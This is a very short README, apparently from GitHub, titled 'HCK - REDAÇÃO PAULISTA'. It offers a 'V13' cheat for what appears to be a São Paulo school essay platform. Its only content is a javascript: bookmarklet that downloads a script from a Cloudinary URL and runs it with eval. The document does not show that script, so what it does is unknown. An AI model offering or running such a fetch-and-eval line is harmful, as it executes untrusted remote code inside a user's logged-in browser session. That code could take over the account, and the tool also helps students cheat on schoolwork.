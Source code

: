 # 🚀 HCK - REDAÇÃO PAULISTA 

## REDAÇÃO V13
- ta indo
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1748102827/redacaov12.js").then(t=>t.text()).then(eval);
```
